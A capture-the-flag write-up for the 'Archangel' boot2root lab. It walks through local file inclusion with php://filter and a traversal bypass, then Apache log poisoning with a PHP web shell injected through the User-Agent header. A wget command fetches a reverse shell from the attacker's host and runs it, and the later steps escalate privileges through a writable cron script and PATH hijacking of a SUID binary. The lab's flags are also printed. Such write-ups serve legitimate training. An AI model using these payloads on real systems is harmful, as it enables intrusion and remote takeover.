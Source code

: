 # Information

Name: Archangel

Difficulty: Easy

Description: Boot2root, Web exploitation, Privilege escalation, LFI

## Recon

**Search for open ports using nmap.**

![image](https://user-images.githubusercontent.com/43668197/133605421-aa240fea-003d-48a4-bd4f-18e007819542.png)

Our attack surface consists of a webserver at port 80 and then an ssh server after we get credentials at port 22. A more aggressive scan reveals we have access to
some supported http methods: HEAD, GET, POST, and OPTIONS.

![image](https://user-images.githubusercontent.com/43668197/133610261-28882a64-0d9a-4a85-b3f7-08488bd25bb7.png)

A quick look around the site reveals another host name in an email.

![image](https://user-images.githubusercontent.com/43668197/133611175-753c2cbe-ef4c-48cd-ad66-62bbe6f9d58d.png)

**Find a different hostname**

mafialive.thm

I run a gobuster on this ip first to see if theres anything else of interest. The flags directory exists just to troll us of course but I still enjoyed the laugh.
But otherwise found nothing here so its time to add mafialive.thm to /etc/hosts.

![image](https://user-images.githubusercontent.com/43668197/133611487-758f1f52-90fa-46ec-bdec-e64592173520.png)

Navigating to http://mafialive.thm/ immediately greets us with the first flag.

**Find flag 1**

thm{f0und_th3_r1ght_h0st_n4m3} 

This host has a robots.txt with some useful information for us.

![image](https://user-images.githubusercontent.com/43668197/133613104-ac9a785f-c4f1-42e4-a0e3-b0ec54ff3b77.png)

**Look for a page under development**

test.php

The title of this page is INCLUDE. Could this be a hint toward LFI?

## Exploitation: LFI

![image](https://user-images.githubusercontent.com/43668197/133614157-eee2f713-2775-4c07-96a3-b4c51e102353.png)

?view= looks promising. We can use phpfilter to read the php code of the site.

https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfilter

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

![image](https://user-images.githubusercontent.com/43668197/133614629-c2a7dfb8-317b-4a9b-95df-0f9469b200db.png)

![image](https://user-images.githubusercontent.com/43668197/133614920-bc58d46d-d2bb-4528-bd7d-44745bdf0c86.png)

Now we ready the test.php page using the same method.

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![image](https://user-images.githubusercontent.com/43668197/133615351-8f51b1c5-d1ee-437d-9d89-0f9ab5d2a8d0.png)

And we get another flag.

**Find flag 2**

thm{explo1t1ng_lf1}

We can bypass the filter by using // instead of / so we use:

```
test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```
And it works!

![image](https://user-images.githubusercontent.com/43668197/133615899-dd76a7dc-6f4d-424d-b98f-1951583feb86.png)

## Exploitation: RCE

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././../var/log/apache2/access.log
```

We can access the log file. https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-2-rce so we replace the User-Agent header with the malicious PHP code.

```
curl 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log' -H 'User-Agent: <?php system($_GET['cmd']); ?>'
```

## Initial access

So now we can set up an http server on our machine and use wget to upload the payload.

```
mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log&cmd=wget 10.2.70.199:8000/php-reverse-shell.php -O /tmp/reverse.php
```

Start the nc listener.

![image](https://user-images.githubusercontent.com/43668197/133627778-8096c9c8-19a2-4480-9af4-196bb989cbc5.png)

Then set the chmod and execute.

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log&cmd=chmod 777 /tmp/reverse.php; php /tmp/reverse.php
```

And we're in.

![image](https://user-images.githubusercontent.com/43668197/133628117-0353bf0b-d248-46d4-941a-f1ca6a88dce5.png)

Theres a single user named archangel and we find the user flag there.

**Get a shell and find the user flag**

thm{lf1_t0_rc3_1s_tr1cky}

Theres another folder here called secret but access is limited to the user archangel. There isnt much else to go on so I use wget to grab linpeas.sh from my local
machine and let it run. It finds an interesting cron job belonging to archangel.

![image](https://user-images.githubusercontent.com/43668197/133632657-3ed7ba40-c274-4dea-9cc4-2a9b6ea04fe3.png)

It also finds an all too easy file but we all know where this goes.

![image](https://user-images.githubusercontent.com/43668197/133634017-01d7f08e-5ede-4faa-aa59-253da33b7328.png)

![image](https://user-images.githubusercontent.com/43668197/133634167-8c583de8-112b-4f39-9480-b562f2843728.png)

![image](https://user-images.githubusercontent.com/43668197/133634347-4f374296-430d-490e-b6bd-dfe1ec2cf761.png)

## Initial priv esc to archangel user

This script can be edited and executed by any user. So we insert our reverse shell after loading up nc listener on our machine and we are in.

![image](https://user-images.githubusercontent.com/43668197/133636214-14bcef84-1888-4d67-b8e8-2d71f304c800.png)

![image](https://user-images.githubusercontent.com/43668197/133636414-c63f7a52-2f14-424c-a710-2b2c4141972a.png)

Time to check out that secret folder that archangel has. It contains the user flag and a binary file named backup. This ELF executable has the SUID bit set, 
which means we can execute this binary with the effective user-id of the root user.

**Get User 2 flag**

thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}

## Priv esc to root

Taking a look at the strings for the file backup revels an interesting cp command. We can priv esc this using PATH variable
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

![image](https://user-images.githubusercontent.com/43668197/133637607-9b8b8553-e208-418f-b705-c6f4cc147841.png)

![image](https://user-images.githubusercontent.com/43668197/133638048-a4f48378-bb26-47c2-98b9-4ce0e004c7d1.png)

And we can find the root flag in the usual /root directory

**Root the machine and find the root flag**

thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}



